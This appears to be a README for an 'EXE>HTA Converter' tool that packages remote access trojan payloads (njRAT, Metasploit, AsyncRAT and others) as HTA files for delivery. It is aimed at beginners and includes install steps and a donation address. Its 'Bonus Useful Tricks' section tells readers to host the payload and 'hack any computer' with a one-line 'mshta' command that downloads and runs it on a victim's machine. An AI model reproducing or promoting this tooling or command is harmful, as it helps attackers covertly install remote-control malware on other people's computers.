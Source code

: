 ### Welcome to EXE>HTA Converter tool version 1.0

This tool will convert EXE file to HTA extension it's very simple to use, and a lot faster.

<img src="screenshots/Start.png" width=400 align="center">

<img src="screenshots/Payload.png" width=400 align="center">

<img src="screenshots/Finish.png" width=400 align="center">

### ❗ What is this ?

EXE>HTA is a tool that automate procedures during converting a payload from EXE into HTA extension. It works with njRAT & Metasploit and some other RAT's. This tool was made for Windows users.

Video Proof: https://youtu.be/3xzOEhswhnw

### ⚙️ FEATURES

- Convert EXE to HTA
- Compatible with njRAT
- Compatible with Metasploit
- Compatible with AsyncRAT
- Compatible with RevengeRAT
- Compatible with Lime-RAT & a lot more...
- Easy to use & it doesn't need knowledge

### 📖 HOW TO INSTALL
IMPORTANT! pip install throwbin
1. pip install -r requirements.txt
2. Donwload & install python3 ('https://www.python.org/downloads/')
3. Download 'njRAT C# Stub' from github ('git clone https://github.com/NYAN-x-CAT/njRAT-0.7d-Stub-CSharp')
4. Download the tool
5. Unzip the file
6. Open the EXETOHTA.exe file
7. Select your python.exe path
8. Select your payload.exe path
9. press CONVERT button.

To learn more please watch this video: https://youtu.be/3xzOEhswhnw

### 📡 HOW TO UPDATE

You can check updates from our official website:
https://ctoslab.com/products/


For feature recommendation please add it on the "Issues" tab or contact us:
https://www.ctoslab.com/support/

### 💡 Bonus Useful Tricks! (For Beginners)

You can upload 'output.hta' to a file uploader website (ex. zippyshare, upload.ee ...) and hack any computer using only OneLineCode.
Exemple:
Press START+R to open Run
And write: mshta exemple.com/payload.hta
It will download and execute the payload automatically.

### 💰 Donate

If you like my work, consider buying me a coffee :)

Bitcoin > 12ZGhmVWi8QboVoExWjUFinyJpaKLqAmHN

⚠️ We are not responsible on how you use this tool. 

